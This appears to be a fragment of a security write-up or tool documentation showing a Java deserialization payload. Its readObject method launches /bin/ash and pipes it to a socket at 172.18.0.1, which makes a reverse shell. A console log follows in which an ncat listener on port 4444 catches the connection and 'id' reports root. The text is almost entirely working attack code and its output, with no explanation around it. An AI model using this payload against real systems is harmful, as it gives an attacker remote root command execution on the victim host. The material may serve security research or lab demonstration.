 ```java
    private static String cmd = "/bin/ash";
    private static String host = "172.18.0.1";
    private static final long serialVersionUID = 2L;

    private void readObject(ObjectInputStream aInputStream) throws ClassNotFoundException, IOException, Exception
    {
        Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s = new Socket(host,port);
        InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
        OutputStream po = p.getOutputStream(), so = s.getOutputStream();
        while(!s.isClosed()) {

            while(pi.available()>0)
                so.write(pi.read());

            while(pe.available()>0)
                so.write(pe.read());

            while(si.available()>0)
                po.write(si.read());

            so.flush();
            po.flush();
            Thread.sleep(50);

            try {
                p.exitValue();
                break;
            } catch (Exception e){}
        }

        p.destroy();
        s.close();
    }
}
```

After the class was loaded by the vulnerable endpoint, a shell pops up on the corresponding listener:

```console
[qtc@kali ~]$ nc -vlp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:36222.
id
uid=0(root) gid=0(root) groups=0(root)
```
